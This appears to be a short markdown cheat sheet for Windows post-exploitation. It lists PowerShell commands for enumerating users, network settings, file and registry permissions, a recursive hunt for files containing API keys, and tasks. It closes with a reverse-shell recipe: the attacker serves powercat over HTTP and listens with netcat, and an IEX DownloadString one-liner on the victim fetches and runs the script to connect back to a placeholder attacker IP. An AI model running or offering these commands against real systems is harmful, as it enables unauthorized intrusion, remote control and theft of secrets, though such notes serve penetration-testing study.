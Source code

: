 # Enumeration

The first step when you have gained initial access to any machine would be to enumerate. We'll be enumerating the following:
- users:
  - Get-LocalUser
  - (Get-LocalUser).Name
  - (Get-LocalUser).Name.Count
  - Get-LocalUser -SID "sid_value"
  - Get-LocalUser | Where-Object -Property PasswordRequired -Match false
  - Get-LocalGroup | measure
- basic networking information:
  - Get-NetIPAddress
  - Get-NetTCPConnection | Where-Object -Property State -Match Listen | measure
  - get-nettcpconnection | where {$_.state -eq "listen" -and $_.localport -eq 445}
  - Get-NetRoute
  - Get-NetAdapter -Name * -IncludeHidden
  - Get-NetAdapter -Name * -Physical
- file permissions:
  - Get-ChildItem -Path C:\ -Include *\.bak*\ -File -Recurse -ErrorAction SilentlyContinue
  - Get-ChildItem C:\* -Recurse | Select-String -pattern API_KEY
  - Get-Acl C:\ | Format-List
  - Get-ChildItem C:\ -Recurse | Get-Acl | Select-Object PSChildName, AccessToString | Format-List
- registry permissions:
  - Get-Acl "HKLM:\Software" | Format-List
  - Get-Hotfix
  - Get-Hotfix -Id KB4023834
- scheduled and running tasks:
  - Get-Process
  - Get-ScheduledTask -TaskName * | Format-List
  - Get-ScheduledTask | Where-Object {$_.State -eq "Running"}
  - get-scheduledtask | where {$_.taskname -eq "new-sched-task"}
- insecure files:
  - Get-ChildItem -Recurse C:\ | Get-Acl | Where-Object {($_.AccessToString -match "Everyone") -and ($_.AccessToString -match "FullControl")}
 
# Reverse Shell

Attacker's Machine:
- git clone https://github.com/besimorhino/powercat && cd powercat
- python3 -m http.server 8080
- nc -lvnp 1337
Victim's Machine:
- Execution Policy:
  - Get-ExecutionPolicy
  - Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
- Download and execute payload:
  - IEX(New-Object System.Net.WebClient).DownloadString('http://[Attacker's IP]:8080/powercat.ps1'); powercat -c [Attacker's IP] -p 1337 -ep

